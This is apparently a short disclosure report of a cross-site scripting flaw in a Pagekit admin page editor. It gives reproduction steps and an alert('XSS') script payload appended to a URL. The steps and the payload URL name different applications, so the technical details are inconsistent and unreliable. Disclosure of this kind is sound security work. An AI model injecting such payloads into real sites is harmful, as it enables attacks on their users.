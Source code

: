# Summary:
Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

# Description:
Stored XSS, also known as Type-1 or Persistent XSS attacks, typically rely on unsanitized user input points for scripts permanently stored on the target servers.

# POC
## Steps To Reproduce:
Go to : http://localhost/pagekit/admin/site/page/edit?id=2
![image]([https://github.com/](https://github.com/b1gM0us3/Report/blob/main/Screenshot%202023-10-07%20163121.png))

On the url, enter payload after url: cuzh4"><script>alert('XSS')</script>rvhmf

Payload: http://localhost/php-inventory-management-system/index.php/cuzh4"><script>alert('XSS')</script>rvhmf



# Impact:
The impact of store cross-site scripting (XSS) can be significant and pose various risks to both web applications and users

